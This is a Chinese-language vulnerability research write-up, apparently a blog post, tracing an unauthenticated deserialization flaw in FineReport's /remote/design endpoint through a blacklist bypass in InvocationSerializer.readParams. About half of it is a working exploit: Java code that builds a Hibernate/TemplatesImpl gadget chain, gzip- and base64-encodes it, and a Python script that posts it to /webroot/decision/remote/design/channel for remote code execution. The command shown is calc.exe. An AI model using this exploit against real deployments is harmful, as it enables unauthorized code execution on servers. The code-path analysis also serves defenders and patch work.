

前言
hw期间拿到的漏洞，修改exp的计划拖了很久，趁年底尝试一下从0到1进行挖掘。
漏洞挖掘过程
查看com.fr.decision.base.DecisionServletInitializer#start发现加载配置类DecisionConfiguration.class。
public void start() {
ServletContext var1 = (ServletContext)this.getModule().upFindSingleton(ServletContext.class);
if (var1 != null) {
AnnotationConfigWebApplicationContext var2 = (AnnotationConfigWebApplicationContext)this.getModule().upFindSingleton(AnnotationConfigWebApplicationContext.class);
...
var2.register(DecisionConfiguration.class);
...
}
}
跟进com.fr.decision.base.DecisionConfiguration，发现addInterceptors方法中，DecisionInterceptor将/remote/design排除不进行拦截，所以com.fr.decision.extension.report.api.remote.RemoteDesignResource中路径都存在未授权访问。
public void addInterceptors(InterceptorRegistry var1) {
...
var1.addInterceptor(new DecisionInterceptor()).addPathPatterns("/**").excludePathPatterns("/remote/design/**").excludePathPatterns("/v10/deployment/**").excludePathPatterns("/v5/design/widget/data").excludePathPatterns("/v5/design/tables/fields").excludePathPatterns("/export/check/**");
...
}
查看该类中方法，跟进com.fr.decision.webservice.v10.remote.RemoteDesignService#onMessage查看业务逻辑。
public void onMessage(HttpServletRequest var1, HttpServletResponse var2) throws Exception {
byte[] var3 = IOUtils.inputStream2Bytes(var1.getInputStream());
var2.getOutputStream().write(WorkContext.handleMessage(var3));
}
这里将var1传递到WorkContext.handleMessage()，继续跟进到com.fr.workspace.WorkContext#handleMessage，此处的com.fr.workspace.connect.WorkspaceMessageHandler为接口类。
public static byte[] handleMessage(byte[] var0) {
if (messageListener == null) {
throw new RuntimeException("Invalid server.");
} else {
return messageListener.handleMessage(var0);
}
}
继续跟进到com.fr.workspace.engine.rpc.WorkspaceServerInvoker#handleMessage，进入deserializeInvocation。
public byte[] handleMessage(byte[] var1) {
FineResult var2 = new FineResult();
try {
Invocation var3 = null;
try {
var3 = this.deserializeInvocation(var1, var2);
} catch (Exception var12) {
return this.serializeResult(var2);
}
...
} catch (Throwable var15) {
FineLoggerFactory.getLogger().error(var15.getMessage(), var15);
return new byte[0];
}
}
继续查看com.fr.workspace.engine.rpc.WorkspaceServerInvoker#deserializeInvocation，发现调用SerializerHelper.deserialize，GZipSerializerWrapper.wrap(InvocationSerializer.getDefault())将GZipSerializerWrapper的反序列化器设置为InvocationSerializer。
private Invocation deserializeInvocation(byte[] var1, FineResult var2) throws Exception {
try {
return (Invocation)SerializerHelper.deserialize(var1, GZipSerializerWrapper.wrap(InvocationSerializer.getDefault()));
} catch (Exception var4) {
var2.setResult((Object)null);
var2.setException(var4);
throw var4;
}
}
然后查看com.fr.serialization.SerializerHelper#deserialize(byte[], com.fr.serialization.Serializer<T>)，此处的var1为GZipSerializerWrapper。
public static <T> T deserialize(byte[] var0, Serializer<T> var1) throws Exception {
if (var1 == null) {
var1 = SerializerSummaryAdaptor.get();
}
ByteArrayInputStream var2 = new ByteArrayInputStream(var0);
return var1.deserialize(var2);
}
GZipSerializerWrapper.deserialize()对传入参数进行Gzip解码，然后传递给InvocationSerializer.deserialize()。
public T deserialize(InputStream var1) throws Exception {
GZIPInputStream var2 = new GZIPInputStream(var1);
return this.serializer.deserialize(var2);
}
继续跟进com.fr.rpc.serialization.InvocationSerializer#deserialize，发现JDKSerializer.CustomObjectInputStream存在反序列化过滤，黑名单/com/fr/serialization/blacklist.txt，但生成Invocation对象后调用了readParams。
public Invocation deserialize(InputStream var1) throws Exception {
DKSerializer.CustomObjectInputStream var2 = new JDKSerializer.CustomObjectInputStream(var1);
InvocationSerializer.InvocationPack var3 = (InvocationSerializer.InvocationPack) var2.readObject();
Map var4 = (Map) var2.readObject();
Invocation var5 = var3.toInvocation(this.readParams(var3.params));
var5.getMetadata().putAll(var4);
return var5;
}
跟进com.fr.rpc.serialization.InvocationSerializer#readParams，此处再次调用SerializerHelper.deserialize进行反序列化，此方法不存在过滤。
private Object[] readParams(byte[][] var1) throws Exception {
Object[] var2 = new Object[var1.length];
for (int var3 = 0; var3 < var1.length; ++var3) {
var2[var3] = SerializerHelper.deserialize(var1[var3], this.paramSerializer);
}
return var2;
}
构造exp
根据上文，构造com.fr.rpc.serialization.InvocationSerializer$InvocationPack对象，将序列化数据写入params。
发送exp时，JDKSerializer.CustomObjectInputStream读取到的类为com.fr.rpc.serialization.InvocationSerializer$InvocationPack，通过黑名单检测后，com.fr.rpc.serialization.InvocationSerializer#readParams进行二次反序列化。

反序列化过程中进行了一次Gzip解码，需要对生成的序列化数据进行Gzip编码后发送。
package finereport;
import com.fr.rpc.Invocation;
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer;
import com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer;
import com.fr.third.org.hibernate.type.AbstractType;
import com.fr.third.org.hibernate.type.ComponentType;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;
import java.io.*;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.stream.Stream;
import java.util.zip.GZIPOutputStream;
public class exp {
public static void main(String[] args) throws Exception {
String command = "calc.exe";
Class clazz3 = Class.forName("finereport.HibernatePoc");
ObjectPayload<?> payload = (ObjectPayload<?>) clazz3.newInstance();
final Object objBefore = payload.getObject(command);
ByteArrayOutputStream b1 = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(b1);
oos.writeObject(objBefore);
oos.close();
b1.close();
Class clazz = Class.forName("com.fr.rpc.Invocation");
Constructor m = clazz.getDeclaredConstructor(Method.class, Object[].class);
m.setAccessible(true);
Invocation inv = (Invocation) m.newInstance(clazz.getMethod("getMethod"), Stream.of(b1).toArray());
Class clazz2 = Class.forName("com.fr.rpc.serialization.InvocationSerializer$InvocationPack");
Constructor m2 = clazz2.getDeclaredConstructor(String.class, String.class, Class[].class, byte[][].class);
m2.setAccessible(true);
byte[][] bytes = new byte[1][];
bytes[0] = b1.toByteArray();
ObjectOutputStream oos2 = new ObjectOutputStream(new FileOutputStream("xxx.ser"));
oos2.writeObject(m2.newInstance(null, null, null, bytes));
oos2.writeObject(inv.getMetadata());
oos2.close();
System.out.println(Base64.getEncoder().encodeToString(compress(new FileInputStream("xxx.ser"))));
}
private static byte[] compress(FileInputStream fis) throws Exception {
ByteArrayOutputStream bos = new ByteArrayOutputStream();
GZIPOutputStream gos = new GZIPOutputStream(bos);
int count;
byte data[] = new byte[8092];
while ((count = fis.read(data, 0, 8092)) != -1) {
gos.write(data, 0, count);
}
gos.finish();
gos.flush();
gos.close();
return bos.toByteArray();
}
}
class HibernatePoc implements ObjectPayload<Object> {
public Object getObject(String s) throws Exception {
Object tpl = Gadgets.createTemplatesImpl(s);
Object getters = makeHibernate5Getter(tpl.getClass(), "getOutputProperties");
return makeHibernate45Caller(tpl, getters);
}
static Object makeHibernate45Caller(Object tpl, Object getters) throws Exception {
PojoComponentTuplizer tup = Reflections.createWithoutConstructor(PojoComponentTuplizer.class);
Reflections.getField(AbstractComponentTuplizer.class, "getters").set(tup, getters);
ComponentType t = Reflections.createWithConstructor(ComponentType.class, AbstractType.class, new Class[0], new Object[0]);
Reflections.setFieldValue(t, "componentTuplizer", tup);
Reflections.setFieldValue(t, "propertySpan", 1);
Reflections.setFieldValue(t, "propertyTypes", new com.fr.third.org.hibernate.type.Type[]{
t
});
TypedValue v1 = new TypedValue(t, null);
Reflections.setFieldValue(v1, "value", tpl);
Reflections.setFieldValue(v1, "type", t);
TypedValue v2 = new TypedValue(t, null);
Reflections.setFieldValue(v2, "value", tpl);
Reflections.setFieldValue(v2, "type", t);
return Gadgets.makeMap(v1, v2);
}
public static Object makeHibernate5Getter(Class<?> tplClass, String method) throws NoSuchMethodException, SecurityException,
ClassNotFoundException, InstantiationException, IllegalAccessException, IllegalArgumentException, InvocationTargetException {
Class<?> getterIf = Class.forName("com.fr.third.org.hibernate.property.access.spi.Getter");
Class<?> basicGetter = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
Constructor<?> bgCon = basicGetter.getConstructor(Class.class, String.class, Method.class);
Object g = bgCon.newInstance(tplClass, "test", tplClass.getDeclaredMethod(method));
Object arr = Array.newInstance(getterIf, 1);
Array.set(arr, 0, g);
return arr;
}
}
生成payload填入data，即可rce。
import gzip, base64, requests
url = "http://127.0.0.1:8075/webroot/decision/remote/design/channel"
headers = {"Content-Type": "application/octet-stream"}
data = ""
rep = requests.post(url,headers=headers,data=base64.b64decode(data),verify=False)
print(rep.text)